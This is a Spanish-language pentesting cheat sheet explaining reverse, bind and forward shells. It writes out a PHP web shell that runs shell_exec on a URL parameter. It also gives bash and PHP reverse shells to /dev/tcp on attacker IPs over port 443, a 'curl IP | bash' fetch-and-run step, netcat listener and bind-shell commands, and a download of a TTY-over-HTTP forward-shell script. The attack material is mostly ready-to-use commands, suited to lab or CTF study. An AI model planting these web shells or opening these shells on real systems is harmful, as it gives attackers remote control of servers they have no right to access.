 # Diferentes tipos de ReverShell

Tags: #ReverShell #Comandos 

Tenemos diferntes tipos de [1 ReverShell](1%20ReverShell.md) en este pagina Web: [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

-   **Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.
-   **Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.
-   **Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.

## ReverShell, BindShell
Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```php
❯ nano cmd.php

	<?php 
		echo "<prep>" . shell_exec($_GET['cmd']) . "</prep>";
	?>
```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de **Atacante**.

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

ReverShell en php
```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Para ponernos en escucha por Netcat en espera de la **ReverShell**:
1) Linux
2) Windows
```bash
❯ nc -nlvp 443 

❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

Para ejecutar Netcat y hacer la **BindShell**: 
```bash
❯ nc IP-Victima 443
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahi pode colocar comandos y conectarmos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```


### Binario para Windows

Este .exe lo debemos de subir a la maquina victima en Windows
```bash
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe           # Netcat .exe nos ayuda a conseguir una ReverShell en Windows
```